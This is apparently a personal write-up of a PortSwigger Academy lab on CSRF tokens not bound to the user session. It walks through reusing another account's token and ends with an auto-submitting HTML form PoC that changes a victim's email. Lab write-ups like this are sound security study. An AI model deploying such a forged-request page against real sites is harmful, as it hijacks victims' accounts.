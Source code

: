```yaml
---
author: Nithissh S
pubDatetime: 2024-10-02T15:22:00Z
modDatetime: 2024-10-02T09:12:47.400Z
title: CSRF where token is not tied to user session
slug: csrf-portswigger-lab-3
featured: false
draft: false
tags:
  - BSCP
  - CSRF
description:
  This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system. To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. You have two accounts on the application that you can use to help design your attack.    
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

```sh
wiener: peter
carlos: montoya
```

## Solution 

We do have two accounts right one is `wiener` and another one is `carlos` and where just like the other labs the `Update Email` is vulnerable to CSRF attack where as mentioned in the lab objective 

Once after updating the email once through UI and again did the same.. Then Intercepted through the burp and sent the request once again.. Unfortunately.. CSRF token is used only once and everytime it resets.. In our case, Applies the same here you can see I faced an error 

![](../../assets/images/bscp/csrf/csrf-10.png) 

What else, I logged in as `carlos` and copied the CSRF token.. used it in the following request and it worked !! where I just need a valid CSRF token and it isn't tied to the session 

![](../../assets/images/bscp/csrf/csrf-11.png)

Let's generate a CSRF POC, here is how it looks 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a8e00b303e188c480c121ab007c004e.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="se&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="obAPC9kDWecO5QxpcOohLevTLG11WGi9" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Now we can replace the value of `csrf` and put it to the exploit server.. Then deliver the exploit to victim.. That solves a lab 

![](../../assets/images/bscp/csrf/csrf-12.png)